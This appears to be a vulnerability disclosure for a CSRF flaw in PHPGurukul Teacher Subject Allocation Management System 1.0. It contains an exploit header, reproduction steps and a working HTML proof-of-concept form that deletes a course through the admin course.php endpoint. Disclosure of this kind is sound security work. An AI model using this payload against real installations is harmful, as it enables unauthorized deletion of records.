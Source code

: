 ## Teacher Subject Allocation Management System V1.0


**Bug Description:**

A Cross Site Request Forgery (CSRF) vulnerability in "/admin/course.php" endpoint of PHPGurukul Teacher Subject Allocation Management System 1.0  allows attackers to "Delete a Course" via a crafted html request.

**Steps to Reproduce:** 

```
# Exploit Title: Cross Site Request Forgery (CSRF) vulnerability in PHPGurukul Teacher Subject Allocation Management System
# Date: 09-12-2023
# Exploit Author: dhabaleshwardas
# Vendor Homepage: https://phpgurukul.com/
# Software Link: https://phpgurukul.com/teacher-subject-allocation-system-using-php-and-mysql/
# Version: 1.0
# Tested on: firefox/chrome/brave
# CVE : 
```


To reproduce the attack:

1- Head to the http://localhost/tsas/admin/course.php endpoint after logging into the admin account.

<img width="959" alt="1" src="https://github.com/dhabaleshwar/Open-Source-Vulnerabilities/assets/132373212/cf0e76d8-a50f-4e45-bdaf-25740fbac04a">



2- Here you can see that we are going to delete the "Data Science and Machine Learning" course , for that we will use the HTML code we have written.

<img width="394" alt="2" src="https://github.com/dhabaleshwar/Open-Source-Vulnerabilities/assets/132373212/113752cf-d519-431e-b452-f84432cff939">



```
<html>
  <!-- CSRF PoC For Deleting Course - by Dhabaleshwar Das -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/tsas/admin/course.php">
      <input type="hidden" name="delid" value="1806" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```


3- We'll then execute this HTML code and we successfully see that the record has been deleted successfully.
